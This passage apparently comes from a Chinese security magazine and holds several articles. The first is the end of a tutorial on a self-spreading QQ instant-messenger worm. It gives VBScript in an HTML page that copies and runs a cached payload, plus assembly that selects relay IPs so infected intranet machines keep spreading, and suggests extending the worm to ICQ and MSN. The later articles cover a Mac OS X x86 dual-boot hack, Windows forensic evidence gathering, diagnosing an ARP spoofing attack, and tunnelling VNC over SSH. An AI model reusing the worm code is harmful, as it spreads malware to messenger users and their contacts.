db "tif=fso.GetSpecialFolder(2)", 0dh, 0ah
db "tif=Left(tif, Len(tif)-4)", 0dh, 0ah
db "tif=tif & 'Temporary Internet Files\\Content.IE5'"
```

```vb
Set tif = FSO.GetFolder(tif)
GenerateAllFolderInformation(tif)
Set WshShell = CreateObject("WScript.Shell")
WshShell.Exec(sf)

Function GenerateFolderInformation(Folder)
  Set Files = Folder.Files
  For Each File In Files
    If StrComp("beautygi[1].html", File.Name, 1) = 0 Then
      fso.CopyFile File.Path, sf
    End If
  Next
End Function

Function GenerateAllFolderInformation(Folder)
  Set SubFolders = Folder.SubFolders
  For Each SubFolder In SubFolders
    GenerateFolderInformation(SubFolder)
  Next
End Function

-->
</SCRIPT></HEAD><BODY>Thank you for test it!</BODY></HTML>
```

```asm
mov VSocket, eax
push IP
pop TestIP
push sizeof(sockaddr)
call IAT1

dw AF_INET
db 0, 80
TestIP dd 0

db 8 dup(0)
IAT1:
  push VSocket
  call connect
  push eax
  push VSocket
  call closesocket
  pop eax
  pop ecx
  ret 4

IsActiveIP ENDP
SelectTrueIP:
  push 64
  pop ecx
  mov esi, offset TrueIPList
STI1:
  lodsd
  push eax
  call IsActiveIP
  .if eax == 0
    sub esi, 4
    lodsd
    jmp STIExit
  .else
    loop STI1
  .endif
  xor eax, eax
STIExit:
  ret

UpdateTrueIP PROC TrueIP:DWORD
  push 64
  pop ecx
  mov esi, offset TrueIPList
UT1:
  lodsd
  .if eax == 0
    push TrueIP
    pop [esi-4]
    jmp UTExit
  .else
    loop UT1
  .endif

  push 64
  pop ecx
  mov esi, offset TrueIPList
UT2:
  lodsd
  push eax
  call IsActiveIP
  .if eax != 0
    push TrueIP
    pop [esi-4]
    jmp UTExit
  .else
    loop UT1
  .endif
UTExit:
  mov eax, TrueIP
  ret 4
UpdateTrueIP ENDP
TrueIPList db 256 dup(0)
```

容易看出，HTML 代码只是 EXE 中的一段数据，EXE 运行后，创建 HTTP 服务和监视 QQ，继续传播。至此，一个完整的 QQ 蠕虫就完成了。

#### 局限性与解决方案

如果目标机器禁止了 VBS 的运行，同样无法传播。但是，单纯以 VBS 为传播手段的病毒都可以大行其道，它也可以。

基于 P2P 思想，虽然不受固定服务器的限制，但是在某些情况下无法传播。比如，被感染的机器在内网中，尽管它可以被感染，但无法感染其他机器。因为其他机器找不到它的 IP，它无法作为服务器。

解决方法如下。

- 1. 程序体内保存一块空间，是 4 的倍数（in_addr 的大小），用来保存真正的 IP。  
- 2. 在一台机器获得控制权后，得到本机 IP（gethostname、gethostbyname），分析是否为内网；是则调用 SelectTrueIP 从 iplist 中选择一个真正的 IP，否则调用 UpdateIPList 更新 iplist，因为 iplist 可能还有未填充项或者过时的 IP。验证是否过时，向它发出连接即可。  
- 3. 当机器处于内网时，会向好友发出 `http://trueip:80` 的消息，对方则向 trueip 发出连接而不是内网的机器，和 DDoS 相似。

代码如下：

```asm
IsActiveIP PROC IP:DWORD
LOCAL VSocket:DWORD
push ecx
push IPPROTO_TCP
push SOCK_STREAM
push AF_INET
call socket
```

#### 扩展

若把这种方法同时也应用到 ICQ、MSN 等 IM 软件，HTTP 服务器不变，只是查找发送消息窗口有所不同，但原理一样，只需要少量修改。再有一个 SendMSNMsg 和 SendICQMsg 线程即可。考虑到 IM 软件同时在线人数之多，再辅助以邮件等常规手段，传播速度十分可观。

#### 防范措施

- 1. 注意在线传输  
  常用的通讯软件如 ICQ、QQ、MSN Messenger 均提供了在线传输功能，来源不可靠的传输内容拒绝接收；即便可靠，接收后也要经过杀毒软件的扫描方能运行。  
- 2. 小心页面链接  
  如果用户在使用聊天软件时不小心上当，点击了不明网页链接，电脑会在使用者完全不知情的情况下，从许多网站下载文件并自动运行。所以，千万别打开陌生人传来的页面链接！如果是好友送来的链接，要询问、确认后打开。这不是谁的漏洞，就像 DDoS 攻击一样，是不可避免的正常危机。

#### 结束语

QQ 和 MSN 受到病毒侵袭的事件再一次强调了互联网世界真实的一面——任何流行的电脑程序最终都会成为被攻击的目标。今后，我们不排除会有像 CIH 这样的恶性病毒通过 QQ、ICQ、MSN 等渠道进行广泛传播的可能，因此，加强对即时通信软件的监控和保护是当务之急。病毒正试图把触角延伸到所有可能的领域，与刚刚开始攻击即时通信软件的病毒一样，虽然手机病毒、PDA 病毒等都还属于新兴“毒种”，病毒传播、侵害模式尚且属于萌芽状态，但是稍许的掉以轻心，都可能会导致巨大的不可挽回的损失。防患于未然，才是反病毒的大计。

适合读者：系统管理员，网络管理员  
前置知识：无

### 让 Windows 和苹果 Mac 系统共存

由于苹果公司的 PC 电脑将使用 Intel 产的 x86 CPU，所以近来苹果公司的操作系统 Mac OSX for x86（下称为 OSX）成为热点。但是苹果公司明确表明苹果的操作系统不会支持第三方平台，并且以后苹果电脑将使用一个安全芯片来控制系统的安装。不过一位外国黑客破解了苹果公司的安全加密芯片，绕过安全芯片来安装 OSX。CPU 必须支持 SSE2 以上（含 SSE2）的指令集才能进行安装，这激起了广大苹果粉丝们的极大兴趣。

一直以来，OSX 安装在 x86 的普通 PC 上面需要第二块硬盘的帮助，而且安装 Apple OS 的硬盘剩下的空间却不能在 Windows 中利用起来，这样一块硬盘等于成了 OSX 独享，实在可惜，而且不能使用 Windows 和 OSX 双启动。下面将告诉各位怎么实现 Windows 和苹果操作系统同盘双启动（我提供一个 BT 种子下载地址 www.aowoo.com/images/osx.zip，这个安装包里面还有一个 chain0 文件是后面要用到的）。

首先我们调整硬盘分区，因为 OSX 需要 6GB 左右的分区。笔者的系统原来有 C 和 D 两个分区。为了安装 OSX，我使用 PQ Magic 来调整硬盘分区，将 D 盘容量缩小，留出了 6.5GB 的空档空间，然后下载必要文件。

#### 需要文件

- 1. Mac OSX x86 映像文件。你可以到网上搜索 tiger-x86.tar.bz2 文件（不需要解压），也可以使用笔者提供的下载地址，我就是用该 BT 种子下载的。附件中的另一个文件 chain0 就是双启动需要的文件。  
- 2. 启动需要的文件。（请参考原系统文件）  
- 3. FanX Live CD：中国 Linux 公社上提供的一个中文 Linux Live CD，直接可以从光盘启动的 Linux 系统。在后面你可以看到用 Linux 作某些事情要比在 Windows 下方便得多。下载地址是 http://www.linuxsky.net/fanx/download/iso/FanX-1.1.iso，下载后将该 ISO 文件刻成光盘，然后将 tiger-x86.tar.bz2 放在 D: 根目录下。

#### 安装系统

下面我们正式进入安装过程。首先我们设置双启动，之所以要在安装 OSX 之前就设置好双启动，是可减少一次重启机器的次数，可以在安装好 OSX 后马上就进入。

实用第一步：先将上面提到的 chain0 文件复制到 C: 盘。然后修改 `C:\boot.ini` 文件（注意该文件是只读隐藏的），可通过“我的电脑 -> 属性 -> 高级 -> 启动和恢复设置 -> 编辑”打开并保存。在文件最后加入一行：`C:\chain0="Mac OS X"`。

然后创建给 OSX 系统使用的分区。用 FanX 光盘启动进入 Linux，登录 `root/toor` 后执行 `cfdisk /dev/hda`，按提示创建主分区、设置分区类型（`af`）、写入分区表并退出。随后将镜像写入目标分区，文中示例分区号为 `hda4`。

```bash
cd /mnt
ls
ls */tiger*
cd hda3
ls
# 确认 tiger-x86.tar.bz2 后执行
tar jxfO tiger-x86.tar.bz2 tiger-x86/tiger-x86-flat.img | dd of=/dev/hda4 bs=512 skip=63 obs=1M
```

注意命令中的 `hda4` 应改成你上一步实际分区号。若报找不到文件，可先用 `tar jtf tiger-x86.tar.bz2` 确认路径。完成后 `reboot` 重启并取出光盘，安装阶段结束。

#### 设置系统

首次进入 OSX 登录界面时选择“Mac OS X”，输入 `-s platform=acpi|x86` 进入单用户模式，执行 `sh /etc/rc` 与 `passwd` 修改密码后重启。再次以 `x platform=acpi|x86pc` 启动进入图形界面，创建管理员用户。文中提示此时系统可基本使用，但 iTunes 与 International 等仍需补丁。

- Maxxuss-SSE3to2-oah750.iso
- Maxxuss-SSE3to2-mach_kernel_v0.2.iso
- Maxxuss-SSE3to2-CG-libSys.iso

补丁说明：前两个覆盖源文件即可，第三个带安装脚本，可在终端执行。直接双击 ISO 后会挂载到 `/Volumes`，每个目录含 RTF 说明。随后文章进入声卡问题修复步骤。

- 1. 在 Windows 设备管理器中找到声卡（SoundMAX Integrated Digital Audio）硬件编号，记录 `8086` 与 `266E` 等关键位。  
- 2. 回到 OSX，进入：`/System/Library/Extensions/AppleAC97Audio.kext/Contents/PlugIns/AppleAC97AudioIntelICH.kext/Contents`  
- 3. 将 `Info.plist` 拖到桌面。  
- 4. 用文本编辑器打开。  
- 5. 在 `AC97 Audio` 段将 `<string>***Other ids***` 改为对应 ID（如 `0x24c58086`，其中含 266E/8086 组合）。  
- 6. 拖回原目录并输入密码覆盖。  
- 7. 重启验证。

文末还给出 Preview 灰屏问题处理：在 Finder 中对 Preview 执行“Get Info”，勾选“Open using Rosetta”（若已运行先关闭）。并说明安装 iTunes 及中文网页支持需下载 `Maxxuss-SSE3to2-AllInclusive-v0.2.zip` 中的 3 个补丁，按说明安装后可正常浏览中文网页、使用 iTunes 与 DVDPlayer，并可在 International 中设置参数。

适合读者：系统管理员，入侵爱好者  
前置知识：无

### 巧妙收集入侵 Windows 系统的证据

文／图 lala

随着网络的不断扩大，网络安全逐渐成为人们关注的焦点，同时也成为是否能进一步投入到更深更广领域的一个基石。当然网络的安全也是一个动态的概念，世界上没有绝对安全的网络，只有相对安全的网络。相对安全环境的取得可以通过不断地完善系统程序（及时给系统漏洞打上不同的补丁和给系统升级）、装上防火墙，同时对那些胆敢在网络上破坏秩序做出不义行为的人给予恰如其分的处理。这必然要牵涉到证据的收集，本文正是对这一方面的内容，针对 Windows 系统进行研究。

#### Windows 系统特性

Windows 操作系统维护 3 个相互独立的日志文件：系统日志、应用程序日志、安全日志。

- 1. **系统日志**

系统日志记录系统进程和设备驱动程序的活动。它审核的系统事件包括启动失败的设备驱动程序、硬件错误、重复的 IP 地址，以及服务的启动、暂停和停止。系统日志包含由系统组件记录的事件，例如在系统日志中记录启动期间要加载的驱动程序或其他系统组件的故障。由系统组件记录的事件类型是预先确定的。系统日志还包括了系统组件出现的问题，比如启动时某个驱动程序加载失败等。

- 2. **应用程序日志**

应用程序日志包括关于用户程序和商业通用应用程序的运行方面的错误活动，它审核的应用程序事件包括所有错误或应用程序需要报告的信息。应用程序日志可以包括性能监视审核的事件以及由应用程序或一般程序记录的事件，比如失败登录的次数、硬盘使用的情况和其他重要的指针，比如数据库程序用应用程序日志来记录文件错误，比如开发人员决定所要记录的事件。

- 3. **安全日志**

安全日志通常是在应急响应调查阶段最有用的日志。调查员必须仔细浏览和过滤这些日志的输出，以识别它们包含的证据。安全日志主要用于管理员记载用户登录上网的情况。在安全日志中可以找到它使用的系统审核和安全处理。它审核的安全事件包括用户特权的变化、文件和目录访问、打印以及系统登录和注销。安全日志可以记录诸如有效的登录尝试等安全事件以及与资源使用有关的事件，例如创建、打开或删除应用文件。管理员可以指定在安全日志中记录的事件，例如如果你启用了登录审核，那么系统登录尝试就记录在安全日志中。

#### 寻找“显形”证据

系统工具提供了对系统进一步的监视，在性能监视器中可以看到其图形化的变化情况。而计数器日志、跟踪日志和警报则提供了对本地或远端系统的监视记录，并可根据预定的设定进行特定的跟踪和报警，还可利用不同的用于配置、管理 COM 组件及应用的组件服务工具记录或查找相关信息。

- 1. **查看 3 大日志**

在计算机上维护有关应用程序、安全性系统事件的日志，可以使用事件查看器查看并管理事件日志。它用于收集计算机硬件、软件和系统整体方面的错误信息，也用来监视一些安全方面的问题。它可根据应用程序日志、安全日志和系统日志来源将记录分成 3 类。

事件查看器显示以下几种事件类型：**Error** 是指比较严重的问题，通常是出现了数据丢失或功能丧失，例如如果在启动期间服务加载失败，则会记录错误。**Warning** 给出警告则表明情况暂时不严重，但可能会在将来引起错误，比如磁盘空间太少等。**Information** 描述应用程序、驱动程序或服务的成功操作的事件，例如成功地加载网络驱动程序时会记录一个信息事件。**Success Audit** 审核访问尝试成功，例如将用户成功登录到系统上的尝试作为成功审核事件记录下来。**Failure Audit** 审核安全尝试失败，例如如果用户试图访问网络驱动器失败，该尝试就会作为失败审核事件记录下来。

注意启动系统时事件日志服务会自动启动，所有用户都可以查看应用程序日志和系统日志，但是只有管理员才能访问安全日志。默认情况下会关闭安全日志，所以管理员要记住设定启用。管理员既可以使用组策略启用安全日志记录，也可以在注册表中设置策略使系统在安全日志装满时停止运行。

基于主机的检测器可以检测到系统类库的改变或敏感位置文件的添加。当结合所有现有的基于网络的证据片断时，就有可能重建特定的网络事件，诸如文件传输、缓冲区溢出攻击，或在网络中使用被盗的用户帐号和密码等。

当调查计算机犯罪时，会发现很多潜在证据的来源，不仅包括基于主机的日志记录，而且还包括网络的日志记录以及其它的传统形式，如指纹、证词和证人。

大多数的网络流量在它经过的路径上都留下了监测踪迹。路由器、防火墙、服务器、IDS 检测器及其它网络设备都会保存日志，记录基于网络的突发事件。DHCP 服务会在 PC 请求 IP 租用时记录网络访问。现代防火墙允许管理员在创建监控日志时有很多种力度。IDS 检测器可以根据签名识别或异常检测过滤器来捕获一个攻击的一部分。基于网络的日志记录以多种形式存储，可能源自不同的操作系统，可能需要特殊软件才能访问和读取。这些日志在地理上是分散的，而且常常对当前系统时间有严重错误解释。调查人员的挑战就在于查找所有日志，并使之关联起来。

- 2. 检查相关文件，执行关键词搜索

Windows 系统同时进行着很多文件的输入和输出，所以几乎所有发生在系统上的活动都会留下一些发生的痕迹。它有许多临时文件、高速缓存文件、跟踪最近使用文件的注册文件、保留删除文件的回收站和无数存储运行时间资料的其它位置。在调查知识产权、信息所有权、信息骚扰及基于文本通信的问题上，对目标硬盘驱动器执行字符串搜索非常重要。关键词可能包括用户 ID、密码、敏感资料（代码字）、已知文件名和具体主题词。字符串搜索可在逻辑文件结构上执行，也可在物理层次上执行。

- 3. 鉴定未授权的用户账号或组、“流氓”进程

检查用户管理器，寻找未授权的用户账号；使用 `usrstat` 浏览域控制器中的域账号；使用 Event Viewer 检查安全日志，筛选新增账号、启用账号、改变账号组及改变用户账号的事件。鉴定“流氓”进程通常较简单，因为这类进程常监听网络连接或探测网络以获取明文用户 ID 和密码。可使用 `plist` 列出运行进程，`listdlls` 提供完整命令行参数，`fport` 显示监听进程及端口。对未运行系统上的“流氓”进程，可在证据整卷内使用最新病毒扫描程序；若在还原映像文件系统上运行检查工具，应确保卷只读。

- 4. 寻找隐藏文件和恢复被删文件

攻击者常会隐藏或伪装文件，例如利用 NTFS 文件流在合法文件后隐藏资料，修改扩展名，伪装成系统文件名，最后再删除。被删除文件通常并未立即真正消失，只是被标记为删除，直到新数据覆盖。越早尝试恢复，成功机会越大；如 File Scavenger 等工具甚至可能在硬盘被重新格式化后仍能恢复。

- 5. 检查未授权的访问点和安全标识符 SID

检查受害系统时，必须鉴别系统访问点以确定访问方式。某些工具使用 API 调用读取内核及用户空间的 TCP/UDP 连接表。若要捕获这些信息，可能需要允许通过还原映像引导系统；也可比较不同阶段结果以识别未授权后门程序。SID 用于唯一标识用户或组，每个系统都有自己的标识符；计算机标识符与用户标识符共同构成 SID，因此可唯一标识用户账号。应比较受害机上发现的 SID 与中央认证机构记录 SID。

- 6. 检查 Scheduler Service 运行的任务

攻击者常用策略是让调度事件为其打开后门、改审策略或执行更隐蔽操作（如删除文件）。恶意调度作业常由 `at` 或 `cron` 工具设置；不带参数的 `at` 命令可显示已调度作业。

- 7. 分析信任关系

Windows NT 系统支持不可传递或单向信任，这意味着只能单方向提供访问和服务。Windows 2000 则支持可传递信任。对跨域访问行为的审计需结合信任链条分析。

#### 隐形证据的查找

由于攻击者隐蔽性提高，他们会使用隐藏信道规避检测。这里将隐藏信道定义为秘密、隐蔽、难以检测的通信方式；相关证据称为“隐形证据”。

- 1. 难以检测、回放的行为

被捕获或监视到的流量仍需进一步分析才能识别未授权流量。例如 Loki 2.0 HTTP 命令信道、邮件隧道、ICMP/UDP 隐蔽信道等。应细查监视流量，提高鉴别能力，关注无法以人类可读方式显示或重构的通信。常见阻碍是加密；经验丰富的攻击者可建立加密信道使监视失效。即便如此，端点之间“是否发生通信”本身也是可用证据。

- 2. 难以跟踪到源 IP 地址的攻击行为

这类行为可通过拒绝服务攻击等方式体现。源 IP 常被伪造，导致通过源地址直接追踪源计算机非常困难。可结合日志文件或嗅探器抓包文件进行取证。电子证据所报告的也可能是错误数据。被伪装的邮件或欺骗性的电子邮件也对按电子邮件跟踪到这些消息的原始计算机提出了挑战。人们会发现中继电子邮件服务器位于一个法律上不合作的国家，并通过此服务器发送伪造电子邮件。这些中继电子邮件服务器通常记录了原始计算机的 IP 地址，但是由于位于不合作的外国，所以无法获得这些信息。加大在网络边界的监视，充分发挥网关的识别作用，才是解决此类问题的唯一首选。

- 3. 使得证据难以收集

通过下列方式可以使证据难以收集——加密文件、安装可装载的核心模块以便利用户的操作系统来对付你，以及对二进制文件使用“特洛伊木马”使攻击者的痕迹不过于明显。攻击者阻碍收集证据的另一个技巧是不断改变远程系统的端口。当攻击者以一种看起来随机的方式频繁地修改端口以初始化与受攻击系统的连接时，调查员很难实施获得相关信息的过程。

对于此种证据的查找，我们采取在线被动的网络监视办法以及通过 IDS、防火墙和其他信息源知道有关攻击的多种标志，同时不断总结有效的分析网络通信的调查方法。在网络中发现非法的服务器或通信的非法通道，这是最有效的方法。它为确定可疑行为的程度和确定以非法方式通信的相关系统提供了一种方法，以便确定将系统保持在线状态所冒的风险和系统脆弱程度。

掌握这些信息，可以采取适当的后续步骤或防范措施，同时并加大培训力度，不断提高监视技巧，加强有力的自动分析工具的开发。

- 4. 免受监视的行为

包括 ICMP 通信、SMTP 通信、POP 通信、Usenet 通信、在外部介质保存文件、看上去无害的 Web 通信，以及源于内部 IP 地址的通信。查找此类证据的唯一方法就是监视尽可能多的通信。

为了维持对攻击者的优势，预见攻击的变革是十分必要的。只有了解攻击者的目标才能知道可能遭受攻击的地方，只有了解这些目标才有可能预见到在网络上发生的攻击。由此我们既要熟悉合法通信的标准，又要深入了解各种网络协议本身，然后进行网络监视并仔细检查网络通信，以便确认各种不同类型的隐藏通道，查找出不同的隐形证据。

计算机取证技术的研究是一个相当复杂的课题，本文力图从两个方面来对计算机取证技术的过程和步骤进行探讨，提出了一种较为完善的由易到难、由简单到复杂的方法。我们可以通过对“显形”证据查找的办法支持在小局域网、军队网进行计算机取证，也支持在英特网上查找一些简易的取证；通过对“隐形”证据查找的办法支持在大的局域网甚至在英特网上查找复杂的取证，为调查人员提供重要的调查线索和证据来源。

### 网吧常掉线故障的解决

适合读者：网络管理员，系统管理员  
前置知识：网络拓扑基础

文／图 朱宏志

前几周帮一个网吧解决了经常掉线的故障，现在把这次故障解决的经历写出来，也许对大家有所启示。网吧给我描述的故障现象是网吧无规律掉线，表现是下面所有客户端都不能上网，而上网服务器仍然能够上网。也就是说对方 ISP 线路没有问题，掉线之后重启上网服务器网络又恢复正常，于是把问题定位在网吧内部、网吧网络结构。如图 1 所示。

经过分析认为大致可能是以下原因造成网吧掉线：

- 1. 上网服务器内网卡到主交换机这段的问题，比如上网服务器的内网卡有问题，或者上网服务器本身有问题（比如电源风扇或 CPU 风扇坏掉），或者主交换机与上网服务器内网卡之间的连线有问题，或者主交换机有问题。
- 2. 网吧客户端有病毒发送大量数据包导致网络堵塞。
- 3. 网吧客户端的网卡坏或者交换机的端口损坏。
- 4. 网吧内部有人进行攻击，比如常见的 ARP 攻击。

但到底是什么原因，也只有一个一个地排除。于是首先要排除上面描述的第 1 个可能。为了排除第 1 个可能，老板重新换了一个主交换机测试，也换掉了主交换机与上网服务器内网卡之间的网线，并且我也重新安装并配置了一台上网服务器，也就是说如果是第 1 个可能造成的掉线，那么问题就应该得到解决。时间一天天地过去，但到一周后网吧老板又打来电话说网络又掉线了。这并没有出乎我的意料……

检查服务器网卡、协议、路由器等时，并没有发现服务器有造成网络掉线的重大嫌疑，虽然它安装了一些多余无用的协议，但这并不足以影响内部网络掉线，最多影响网络性能而已。

于是开始怀疑内部客户端的问题，但心中马上又排除了第 2 个可能，因为网吧都安装了还原精灵之类的东西，重启后计算机都还原了，所以客户端不应该有什么病毒，而且这种时间间隔的掉线也不像客户端网卡坏或者交换机端口坏。于是想到了第 4 种可能，难道是有人在进行攻击？既然可能是有人在进行攻击，那就只有当他在攻击时才能确定真实原因，如果攻击者没有在现场，我去了也找不出原因。于是一次网吧老板再次打电话说掉线之后，我就迅速赶到了现场。到了网吧，我就在上网服务器上输入 `arp -a` 命令，结果让我大吃一惊，这不就是猜想中的 ARP 攻击吗？

从上面的 ARP 缓存表可以看出，所有的内网 IP 对应的 MAC 地址都被修改成一样的了，这个修改后的 MAC 地址就可能是攻击者的 MAC 地址，因为这样所有到其他 IP 的数据将被传递到这台攻击机，以实现攻击者的某些需要，比如盗取各种密码等。那个 MAC 对应的真实 IP 又是谁呢？因为原来的 MAC 地址没有登记，所以只有通过 IP 来找到相应的上网客户端。于是只好在上网服务器上安装一个 Sniffer 软件，看到底是哪个 IP 在发送攻击性的数据包。下图 2 是我用 Ethereal 监听之后过滤出来的所有 ARP 通信，这是我首先看到的一部分截图，可以看出图 2 是 ARP 广播，实质上是攻击者在进行扫描，以确定哪些机器在线，因为在线的机器会对这个 ARP 广播做出应答，不过这也马上暴露了攻击者自身。从图 2 可以看出，现在的扫描者是 IP 为 192.168.0.56 的客户机（56 号机），当然这还不能充分证明它就是攻击者，我们再看看下面的数据包，如图 3 所示。

请注意图 3 中高亮选中的行，源 MAC 是攻击机，目标 MAC 是上网服务器的内网卡。这里攻击机冒充 192.168.0.86 这台机器对网关说 86 号机的 MAC 地址是 00-11-09-d5-83-2d（这本是攻击机的 MAC 地址），这样做的结果就是：

网关发送给 86 机器的数据将发送到攻击者。紧接着上面的下一行，攻击者给另一台机器（经查是 85 号机）说网关的 MAC 地址是攻击者的 MAC。于是到这里，攻击就形成了，因为攻击者给客户机说网关的地址是它的 MAC，又跟网关说客户机的 MAC 是它的 MAC 地址，于是所有通信的数据都到达了攻击机，从而满足它获取网内其他用户账号和密码的要求。当然也很有可能这只是纯粹的攻击而已，于是此后网速会越来越慢直至崩溃。如果此时攻击者关机，那么整个网络就会表现为突然掉线，因为此时客户机都不能与这个假“网关”通信了，当然客户机也就不能访问因特网了，表现出来就是网络掉线了。如果此时上网服务器重新启动，由于启动时它将广播自己的 ARP，这也导致客户机更新网关的 ARP 条目，于是网络又恢复正常；但如果攻击仍在继续，网络又会像前面一样慢慢崩溃。

那怎样来防范这类 ARP 中间人攻击呢？当然只要攻击者不能更改别人的 ARP 缓存表条目就行了。要做到这一点，我们可以创建静态 ARP 表项来实现，但这比较麻烦，因为不光要在网关上创建，还需要在客户机上进行：在网关上创建所有客户机的 ARP 静态项，这样攻击者就不能修改网关上的 ARP 项；为了不让攻击者修改客户机上的 ARP 项（通常是修改网关条目），还需要在客户机的 ARP 缓存表中创建至少网关的 ARP 静态条目，可以通过下面的方法进行。

#### 1. 在上网服务器（网关）上创建所有客户机的静态 ARP 表项

- 1. 使用 `arp -a > c:\arp.txt` 把所有动态 ARP 表项定向到文本文件 `c:\arp.txt`，完成后打开这个文本，删除掉顶部非 ARP 表项的部分，结果如图 4 所示。
- 最好在上网高峰期执行这个命令，这样才能尽可能得到所有客户机的 MAC 地址，当然你也可以手动在后面添加上没包括进的 IP 和 MAC 地址对。
- 2. 创建脚本文件 `c:\bind.bat`，内容如下：

```bat
FOR /F "tokens=1,2" %%i in (c:\arp.txt) do (arp -s %%i %%j)
```

它的作用是从前面的 `arp.txt` 中提取相应的表项并创建静态表项。

- 3. 为了让上网服务器每次开机都运行上面的脚本，可以把这个脚本的快捷方式发送到启动项目里面。

#### 2. 客户机的操作

客户机上的操作同理，只是客户机只需要绑定网关，当然也可以全部绑定，操作与上面类似。不同的是可以把上面的 `arp.txt` 文本放在一个共享文件夹中，然后将 2、3 步作相应改变即可。

---

适合读者：网络管理员，系统管理员  
前置知识：无

### 在 Windows 下 VNC 的安全隧道

文／图 刺客微软

相信不少读者都喜欢使用远程登录对服务器进行远程访问，大家使用的远程登录服务端和客户端可能也不尽相同，可能是微软的终端服务又或者是 PcAnyWhere 等等，不过笔者也相信大多用户还是钟情于 VNC 这套免费的午餐。但是你在使用 VNC 的同时有没有担心过你的连接密码或者对话操作被人监听窃取呢？如果有这样的担心，笔者今天要介绍便是一种安全的远程 VNC 访问方案，希望能帮助读者解决后顾之忧。

此方案将使用 SSH 作为 VNC 连接的安全隧道。由于 OpenSSH 和 VNC 在 Linux 下配置较为简单，笔者此文着重介绍 Windows 版本下的配置过程。OK，废话少说，让我们开始挖掘我们的隧道。

#### OpenSSH for Windows

OpenSSH 是 Windows 下一款免费的小型 OpenSSH 服务器和客户端工具包。它能让 Windows 提供 OpenSSH 服务进行 SSH/SCP/SFTP 等安全操作。其主页为：http://SSHWindows.sourceforge.net/

#### SSH Server 的安装

首先从官方网站上下载最新版本的 SSHWindows。SSHWindows 安装如其他 Windows 软件安装方式一样简单，只要单击下一步便可完成安装。安装过程没有什么特别的，一般选择默认选项便可。如图 1 所示。

如果你的电脑之前安装过 Cygwin 且版本旧于 SSHWindows 所包含的话，系统就会弹出询问你是否继续安装，单击“yes”进行升级。如图 2 所示。

SSHWindows 在安装过程中会自动创建公共密钥，你将看到弹出的 Windows 命令行正在生成密钥。如图 3 所示。

最后提示在你启动 OpenSSH 服务之前，首先必须编辑 `C:\Program Files\OpenSSH\etc\passwd`，如果不完成此步你将不能登录 SSH Server。如图 4 所示。

单击 OK 完成安装。要登录 OpenSSH，当然需要创建相应的授权账号，而这些账号也必须首先存在 Windows 以便 SSH Server 导入。

Windows 下如何创建一个新用户，这里笔者就不多说了。实在有需要的读者请致电微软帮助中心吧，呵呵。

首先开启 Windows 命令行，在【开始】→【运行】处输入“cmd”回车，切换到 OpenSSH 安装目录下的 bin 目录。假设你将 OpenSSH 安装于 `C:\Program Files` 下，则命令如下：

```cmd
cd "C:\Program Files\OpenSSH\bin"
```

```cmd
mkgroup -l >> ..\etc\group  （本地用户组）
mkgroup -d >> ..\etc\group  （域用户组）


```

接着创建用户密码文件。此文件将包含所有有授权登录 SSH Server 的用户。如果你只想加入个别用户请使用 `-u` 参数；如果想加入全部 Windows 系统用户，则省略此参数。数，注意这样做将把系统一些服务账号、Guest 账号等一并加入。和 mkgroup 一样，`-l` 与 `-d` 参数可以让你选择加入用户的类型是本地还是域用户。同样在 `bin` 目录下，我们以新加本地用户 `becks` 与域用户 `jinn` 为例，如图5所示。
```bash
mkpasswd -l -u becks >> ..\etc\passwd
mkpasswd -d -u jinn  >> ..\etc\passwd
```

可以通过用写字板打开 `C:\Program Files\OpenSSH\etc\passwd` 这个文件检查是否成功导入账号。如果有必要，你还可以修改 `C:\Program Files\OpenSSH\etc\sshd_config`，配置 SSH Server。一般按照系统默认的配置即可，以下是笔者的 `sshd_config`：

```text
============= File Begin Here =============
Port 22
#Protocol 2,1
Protocol 2
#ListenAddress 0.0.0.0
#ListenAddress ::

# HostKeys for protocol version 1
#HostKey /etc/SSH/SSH_host_key
# HostKeys for protocol version 2
#HostKey /etc/SSH/SSH_host_rsa_key
#HostKey /etc/SSH/SSH_host_dsa_key

# Lifetime and size of ephemeral version 1 server key
#KeyRegenerationInterval 1h
#ServerKeyBits 768

# Logging
#SyslogFacility AUTH
#LogLevel INFO

# Authentication:
#LoginGraceTime 2m
PermitRootLogin no
StrictModes yes
RSAAuthentication no
#PubkeyAuthentication yes
#AuthorizedKeysFile .SSH/authorized_keys
...
#RhostsRSAAuthentication no

# similar for protocol version 2
#HostbasedAuthentication no
IgnoreUserKnownHosts yes
#IgnoreRhosts yes

PasswordAuthentication yes
#PermitEmptyPasswords no
#ChallengeResponseAuthentication yes

# Kerberos options
#KerberosAuthentication no
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes

# GSSAPI options
#GSSAPIAuthentication no
#GSSAPICleanupCreds yes

#UsePAM yes
#AllowTcpForwarding yes
#GatewayPorts no
#X11Forwarding no
#X11DisplayOffset 10
#X11UseLocalhost yes
#PrintMotd yes
#PrintLastLog yes
#KeepAlive yes
#UseLogin no
UsePrivilegeSeparation no
#PermitUserEnvironment no
#Compression yes
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS yes
#PidFile /var/run/SSHd.pid
MaxStartups 10:30:60

Banner /etc/banner.txt
Subsystem sftp /usr/sbin/sftp-server
============= File End Here =============


```

配置完成后保存，在命令行启动 OpenSSH，启动命令为 `Net Start OpenSSHd`，停止为 `Net Stop OpenSSHd`。也可以直接在【服务】中启动：在运行中输入 `services.msc`，打开服务控制台，找到 OpenSSH 服务后，右键 -> 属性，便可以进行启动与停止服务操作。如图6所示。

为了测试是否成功启动，我们可以使用 Telnet 测试连接本地的 22 端口（SSH 服务的默认端口），使用以下命令进行测试。
图6

```bash
telnet localhost 22
```

如果看到以下信息便表示成功：`SSH-2.0-OpenSSH_3.8.1p1`，如图7所示。


图7

#### 客户端连接

现在使用 SSH 客户端，笔者这里推荐使用 PuTTY 这个小巧且功能强大的 SSH Client。

输入 OpenSSH 的 IP，单击 Open 进行连接。首次连接会出现是否接受远程主机的公共密钥提示，单击 Yes 继续。如图8所示。


图8

接着便是输入用户名和密码进行登录。此处的登录 banner 信息，可以通过编辑服务器上 OpenSSH 安装目录下的 `/etc/banner.txt` 进行修改。如图9所示。


登录成功后，我们便可以像以往 Telnet 远程 Windows 主机般进行远程维护，当然最大的区别就是我们现在与服务器间的通信是加密的。如图10所示。


图10

OK，OpenSSH 服务设置好了，现在我们来安装 VNC。由于 VNC 安装过程简单，笔者在这里就不多费笔墨了。值得注意的是，在安装结束前，需要设置登录 VNC 服务器的密码，如图11所示。


图11

